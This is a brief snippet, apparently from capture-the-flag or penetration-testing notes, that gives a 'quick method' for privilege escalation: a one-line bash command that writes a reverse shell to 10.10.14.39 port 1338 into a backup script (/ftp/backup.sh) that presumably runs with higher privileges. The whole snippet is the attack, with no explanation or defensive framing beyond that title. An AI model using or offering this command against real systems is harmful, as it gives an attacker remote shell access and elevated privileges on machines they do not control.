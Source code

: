 quick method to `echo` a file into a script to privilege escalate
```bash
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.39/1338 0>&1'" > /ftp/backup.sh
```